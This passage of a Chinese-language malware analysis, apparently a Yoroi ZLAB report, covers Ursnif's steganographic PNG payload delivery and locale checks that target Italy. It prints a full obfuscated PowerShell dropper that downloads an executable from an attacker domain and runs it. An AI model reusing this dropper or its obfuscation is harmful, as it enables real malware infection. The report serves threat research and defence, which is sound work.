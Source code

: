 [![](https://p3.ssl.qhimg.com/t011ef0370101da8b9e.png)](https://p3.ssl.qhimg.com/t011ef0370101da8b9e.png)

`pf`方法设计的目的是从合法的`postimg[.cc`平台上下载PNG图像，在这种情况下，隐写技术在另一个控制流分支中具有不同的应用。事实上，恶意软件也使用了一层AES加密。细心的读者能够注意到DLL中所使用的加密体制的特殊性：加密不仅提供了对在线隐写分析的保密性，还提供了对所在国家的检查，以确保受害者是所针对的目标之一。实际上，解密密钥是由当前`CultureInfo`的`LCID`属性生成的，其数据结构提供了计算机的日历、语言和区域设置等信息。

[![](https://p1.ssl.qhimg.com/t01c57a08128884fb32.png)](https://p1.ssl.qhimg.com/t01c57a08128884fb32.png)

[![](https://p3.ssl.qhimg.com/t01486f8061c03151c8.png)](https://p3.ssl.qhimg.com/t01486f8061c03151c8.png)

`pf（）`函数的返回值是隐藏在上图中的payload，显然，这是一个混淆的powershell脚本。和之前的分支一样，该payload包含多层次的重度混淆，这里一共有6层。

[![](https://p2.ssl.qhimg.com/t01c9232dcd7644b3a8.png)](https://p2.ssl.qhimg.com/t01c9232dcd7644b3a8.png)

此分支的第六个powershell阶段包含2个国家/地区的检查，而不仅仅是一个。

第一项检查是`HKCU:Control PanelDesktop`注册表项，其必须具有和`It`字符串匹配的**首选语言**；第二项检查是powershell命令`$`{`host`}`.CurrentCulture`的结果，必须与子字符串`ali*`匹配，明确指定了意大利语。

```
代码片段12:
if((&amp;(‘gp’) (((“`{`0`}``{`4`}``{`3`}``{`1`}``{`5`}``{`2`}`”-f’HKCU:`{`0`}`Control P’,’`}`D’,’sktop’,’l`{`0′,’ane’,’e’))  -f [Char]92) | &amp;(“`{`0`}``{`1`}`” -f ‘Sele’,’ct’) -Property (‘*’)).”p`R`efeRR`EduiL`AnguA`gES” -like (“`{`1`}``{`0`}`” -f’*’,’*t-I’))`{`$`{`GO`}`=(“`{`0`}``{`4`}``{`3`}``{`7`}``{`1`}``{`5`}``{`6`}``{`2`}`” -f’https://newupd’,’///……’,’e’,’f.info///’,’atinde’,’….’,’.ex’,’//’),””;foreach($`{`u`}` in $`{`GO`}`)`{`Try`{`$`{`RI`}` = “$env:tempTwain002.exe”;$`{`k`L`}` = .(“`{`1`}``{`0`}``{`2`}`” -f ‘ec’,’New-Obj’,’t’) (“`{`0`}``{`4`}``{`2`}``{`3`}``{`1`}`” -f ‘System.Ne’,’nt’,’Cl’,’ie’,’t.Web’);$`{`Kl`}`.”Head`ers”.”A`DD”((“`{`2`}``{`1`}``{`0`}``{`3`}`” -f’e’,’r-ag’,’use’,’nt’),(“`{`10`}``{`14`}``{`6`}``{`12`}``{`8`}``{`5`}``{`3`}``{`7`}``{`11`}``{`13`}``{`0`}``{`2`}``{`15`}``{`9`}``{`4`}``{`1`}`”-f’64;’,’Firefox/66.0′,’ rv:6′,’ W’,’ ‘,’10.0;’,’o’,’in’,’ NT ‘,’ Gecko/20100101′,’Mozilla/5.0 (‘,’64; ‘,’ws’,’x’,’Wind’,’6.0)’));$`{`k`L`}`.”DOWNl`oadf`ilE”($`{`u`}`, $`{`r`I`}`);if(($`{`h`osT`}`.“Cu`Rr`En`T`cultURe”| &amp;(“`{`1`}``{`0`}``{`2`}`” -f’-Stri’,’Out’,’ng’)) -like (“`{`1`}``{`0`}`”-f’i*’,’*al’))`{`.(“`{`0`}``{`1`}`”-f ‘S’,’aps’) $`{`Ri`}`;break`}``}`Catch`{`&amp;(“`{`2`}``{`3`}``{`1`}``{`0`}`” -f’t’,’s’,’Write-‘,’Ho’) $`{`_`}`.”EXC`epTION”.”m`ES`SAge”`}``}``}`
```

随后，我们便得到和**加载器**章节中相同的payload。



## 总结

Cybaze-Yoroi ZLAB 团队分析了过去几个月中，许多与ursnif有关的攻击活动，最近的几次活动表明其愈发复杂和狡猾，尤其是在攻击杀伤链的武器化阶段，以及在传递payload时所准备的多层次、高混淆的感染链。

考虑到该恶意软件对于意大利全境的威胁规模和持续性，很明显，这些攻击背后的威胁组织正在大力地利用自动化的攻击武器，并投入资源、时间和金钱来准备复杂的、精准打击的感染链。这些都表明，意大利在持续地受到网络罪犯的攻击，这些攻击者已经达到了一定程度的组织熟练度，并且持续改进其攻击技巧，这都意味着意大利的各公司和组织所面临风险的增加。



## IOCs
